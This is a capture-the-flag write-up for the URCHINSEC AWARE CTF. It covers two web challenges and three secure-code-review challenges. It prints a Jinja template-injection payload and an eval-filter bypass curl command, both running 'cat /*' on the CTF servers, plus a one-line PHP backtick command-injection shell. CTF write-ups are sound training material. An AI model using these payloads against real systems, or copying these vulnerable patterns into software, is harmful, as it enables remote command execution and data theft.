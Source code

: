 ---------------

### CTF: URCHINSEC AWARE CTF

--------------

![image](https://github.com/user-attachments/assets/21dcb944-92b5-4150-b742-71e140fe3c3c)

--------------

### CHALLENGES:

- Web:
  - Notee
  - Pyrison
- Secure code Review:
  - Heart
  - Redhand
  - Syringe

-----------------

### WEB:

-----------------

### Notee:

![image](https://github.com/user-attachments/assets/55fbe0a9-917e-4d43-8538-fae02180f615)

- The challenge's main vulnerability is `Server Side Template Injection` and the code detailed below shows the sink.

```python3
@app.route('/<username>/note/<id>/comment', methods=['GET'])
def get_comments_note(username, id):
    note = Note.query.filter_by(id=id).first()
    if note is not None:
        # check if username inserted matches the note
        if note.username == username:
            return render_template_string(note.comment)
        else:
            return abort(403)
    else:
        return abort(404)
```
- Route `/<username>/note/<id>/comment` takes in the `comment` key retrieved from the `note` variable and passes it to `render_template_string` which is vulnerable to the sink.The note's variable is from the `POST` parameters filled in the index page.The main point to pass the payload is the `comment` input box.

```python3
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        title = request.form.get('title')
        description = request.form.get('description')
        comment = request.form.get('comment')
        user_ip = request.remote_addr
```

### Exploitation

- I added the payload below to the comment box.

```python3
{{x.__init__.__globals__['__builtins__']['__import__']('os').popen('cat /*').read()}}
```
![image](https://github.com/user-attachments/assets/c3b06971-5cb1-4841-b4b6-a2004079a935)

- I retrieved the flag with `curl`.

![image](https://github.com/user-attachments/assets/2a322d84-6257-434c-9963-4c673f03a37b)

- Flag-:```urchinsec{W3_KEEP_NOTES_SAfe_f0r_ouR_S3cr3t_r3cipesss}```

---------------------

### Pyrison

![image](https://github.com/user-attachments/assets/c714af89-b059-493c-9800-b1a93da2633c)

- This challenge requires blackbox testing because no source code was provided but based on the author's choice of name.I deduced that the backend is python and values are passed to `eval()` in python but some special keywords are filtered.
- I tested `7*7` and got the value `49` which signifies that my deductions are accurate.

![image](https://github.com/user-attachments/assets/113835e1-cf4c-49d3-aa86-eba45b42b466)

- I also tried `import` to import modules but I noticed that the author blacklisted it.

![image](https://github.com/user-attachments/assets/a1216e31-aacf-4ed6-9e02-6fe2b84ce1af)

- I tried the next method by passing `eval("__IMPORT__".lower())` which worked because the filter is not case sensitive and picks only `import` in lowercase and not in uppercase.I passed the uppercase `import` to the `lower()` to convert it to lowercase which is evaluated later with the `eval()` function.You can see below that we've successfully called the `import` function.

![image](https://github.com/user-attachments/assets/4e11ab0b-0e79-48e1-8d2d-a277e05cf148)

- Now,we can import module we like and gain RCE, I picked `os.popen` to read the flag.

Final Payload-:```curl https://urchinsec-pyrison.chals.io/test/trick -X POST -d "query=eval('__IMPORT__'.lower())('os').popen('cat /*').read()"```

![image](https://github.com/user-attachments/assets/cd7f553e-22bb-4214-9b41-ccf615fba9fb)

- Flag-:```urchinsec{H3r3_we_go_again_byp4ssing_evals_f0rFUN}```

--------------------------

### SECURE CODE REVIEW-:

### Heart:

![image](https://github.com/user-attachments/assets/106b5355-ae43-45c8-b05f-3ead6d015564)

- The code is vulnerable to `Server Side Template Injection` because of the `render_template_string()` function

![image](https://github.com/user-attachments/assets/a0af8189-3e30-449c-8eca-039b00730358)

- Flag-:```urchinsec{9_SSTI}```

### REDHAND

![image](https://github.com/user-attachments/assets/7ed21cf3-f607-4390-9110-1a05f7886780)

- The code is vulnerable to `command-injection` because php execute any code between backticks as system commands.

```<?=`$_GET[0]`?>```

- Flag-:```urchinsec{command_injection}```

---------------------

### SYRINGE:

---------------------

![image](https://github.com/user-attachments/assets/581f992f-6790-45e6-84ad-08d54e4b7b38)

---------------------

- The code below is vulnerable to `sql_injection`, an attacker can close the first statement and execute an arbitrary statement.

![image](https://github.com/user-attachments/assets/5e654ade-594a-47cc-97de-0668af5049fe)

- Flag-:```urchinsec{15_sql_injection}```

----------------------

### THANKS FOR READING

----------------------








